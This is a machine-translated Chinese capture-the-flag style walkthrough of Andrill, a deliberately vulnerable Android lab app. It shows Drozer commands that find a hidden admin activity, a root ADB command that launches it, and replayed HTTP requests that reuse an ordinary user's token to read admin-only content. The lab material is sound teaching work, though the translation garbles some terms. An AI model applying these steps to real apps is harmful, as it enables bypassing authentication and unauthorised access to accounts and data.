


# 深入研究 Android 应用程序——第 1 部分——Drozer+Burp

> 原文：<https://infosecwriteups.com/digging-android-applications-part-1-drozer-burp-4fd4730d1cf2?source=collection_archive---------0----------------------->

你好，在这篇文章中，我将解决[和](https://github.com/Voorivex/Andrill)的第一部分:

> Andrill 是一个 android 移动应用程序，它与一个后端 API 进行交互，该 API 存在各种难度级别的漏洞。

注意:这篇文章适合初学者，在 Andrill 的下一个级别，我将介绍挂钩技术、SSL pin 旁路技术等等。然而，在这里我将介绍一些简单的原理和 Drozer 的快速测试。我将展示渗透测试人员如何从 Android 应用程序中列出`hidden`和`exporeted`活动，并正确调用它们。


# 规则

这里有一些规则:

1.  该测试应被视为`black-box`
2.  请`DO NOT`审查源代码(NodeJS 后端或 Android 的 Java)
3.  因此，只有编译后的 APK 和远程服务器才是应该测试的范围。
4.  登录凭证:`james:james`
5.  目标是捕获应用程序流量，阅读管理员说明

# 开始黑客攻击

安装阶段很容易，只需按照说明，浏览服务器的 IP 会给 Android 应用程序:


一些初始步骤:

1.  代理 Android box 和服务器之间的打嗝
2.  在安卓盒子里安装安德里尔·APK

之后，运行应用程序将提供一个登录屏幕:



通过凭证`james:james`登录将加载以下屏幕:



Burp 中捕获的相应 HTTP 请求:

```
POST /authenticate HTTP/1.1
Content-Type: application/json
Content-Length: 39
Host: 192.168.1.8:8081
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"password":"james","username":"james"}HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Date: Fri, 07 Jun 2019 22:45:35 GMT
Connection: close
Content-Length: 110{"user_id":"3","display_name":"James",**"login_token":"f686a930-8975-11e9-9714-d7315930c699"**,"status":"success"}
```

加载用户内容:

```
POST /back-end HTTP/1.1
**auth_token: f686a930-8975-11e9-9714-d7315930c699**
Content-Type: application/json
Content-Length: 25
Host: 192.168.1.8:8081
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"action":"get_contents"}HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Date: Fri, 07 Jun 2019 22:45:35 GMT
Connection: close
Content-Length: 83{"user_contents":"This is a public note every user can see it.","status":"success"}
```

应用程序使用身份验证响应中收到的 login_token。这一阶段有两种方法:

1.  反编译 APK 并在源代码中寻找漏洞
2.  通过 Drozer 分析应用

在本演练中，我选择第二个。

# 德罗泽，快快快

Drozer 有几个功能，我跳过安装等。列出设备:

```
>drozer console devices
List of Bound DevicesDevice ID         Manufacturer         Model                 Software
9a302eb7b9185467  unknown              Samsung Galaxy S6 - 5.0.0 - API 21 - 1440x2560  5.0
```

连接到设备:

```
>drozer console connect
Selecting 9a302eb7b9185467 (unknown Samsung Galaxy S6 - 5.0.0 - API 21 - 1440x2560 5.0)..                    ..:.
           ..o..                  .r..
            ..a..  . ....... .  ..nd
              ro..idsnemesisand..pr
              .otectorandroidsneme.
           .,sisandprotectorandroids+.
         ..nemesisandprotectorandroidsn:.
        .emesisandprotectorandroidsnemes..
      ..isandp,..,rotectorandro,..,idsnem.
      .isisandp..rotectorandroid..snemisis.
      ,andprotectorandroidsnemisisandprotec.
     .torandroidsnemesisandprotectorandroid.
     .snemisisandprotectorandroidsnemesisan:
     .dprotectorandroidsnemesisandprotector.drozer Console (v2.4.4)
dz>
```

以下命令显示安装在电话上的软件包:

```
dz> run app.package.list
...
com.android.providers.settings (Settings Storage)
com.android.captiveportallogin (CaptivePortalLogin)
**com.example.andrill_1 (Andrill-1)**
...
dz>
```

我们的 Andrill 应用程序已经成功加载。获取有关包的信息:

```
dz> run app.package.info -a com.example.andrill_1
Package: com.example.andrill_1
  Application Label: Andrill-1
  Process Name: com.example.andrill_1
  Version: 1.0
  Data Directory: /data/data/com.example.andrill_1
  APK Path: /data/app/com.example.andrill_1-1/base.apk
  UID: 10064
  GID: [3003]
  Shared Libraries: null
  Shared User ID: null
  Uses Permissions:
  - android.permission.INTERNET
  Defines Permissions:
  - None
```

这里，我不打算讨论 Drozer 提供的攻击面，收集所有活动:

```
dz> run app.activity.info -a com.example.andrill_1 -i -u
Package: com.example.andrill_1
  Exported Activities:
    com.example.andrill_1.SplashScreen
      Permission: null
      Intent Filter:
        Actions:
          - android.intent.action.MAIN
        Categories:
          - android.intent.category.LAUNCHER
  **Hidden Activities:**
    com.example.andrill_1.LoginActivity
      Permission: null
    com.example.andrill_1.UserActivity
      Permission: null
    **com.example.andrill_1.AdminActivity**
      Permission: null
    com.example.andrill_1.ServerActivity
      Permission: null
```

正如所看到的，有四个隐藏的活动。`AdminActivity`看起来很有趣。调用活动:

```
dz> run app.activity.start --component com.example.andrill_1 com.example.andrill_1.AdminActivity
**Permission Denial**: starting Intent { flg=0x10000000 cmp=com.example.andrill_1/.AdminActivity (has extras) } from ProcessRecord{37c6394b 2473:com.mwr.dz:remote/u0a65} (pid=2473, uid=10065) not exported from uid 10064
```

由于该活动未导出，因此 Drozer 无法调用该活动。但是，从根 ADB shell 将成功调用:

```
127|root@vbox86p:/ # am start -n com.example.andrill_1/.AdminActivity
Starting: Intent { cmp=com.example.andrill_1/.AdminActivity }
```

就在上面的命令之后，打嗝截获了一个请求:

```
POST /back-end HTTP/1.1
Content-Type: application/json
Content-Length: 29
Host: 192.168.1.8:8081
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"action":"get_admin_secret"}
```

结果是:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Date: Fri, 07 Jun 2019 22:52:54 GMT
Connection: close
Content-Length: 58{"reason":"Invalid token was provided.","status":"failed"}
```

添加身份验证令牌:

```
POST /back-end HTTP/1.1
Content-Type: application/json
**auth_token: f686a930-8975-11e9-9714-d7315930c699** Content-Length: 29
Host: 192.168.1.8:8081
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"action":"get_admin_secret"}
```

结果是:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Date: Fri, 07 Jun 2019 22:58:52 GMT
Connection: close
Content-Length: 72**{"admin_contents":"Admins secret contents revealed.","status":"success"}**
```

这一部分已经完成，我已经看到一些重要的商业应用程序遭受了提到的缺陷。在一个案例中，一个互联网移动应用程序有一个手指触摸认证，虽然活动可以通过上面提到的方法调用，所以我可以绕过本地认证。请随时留下评论，并为安德里尔水平提出建议。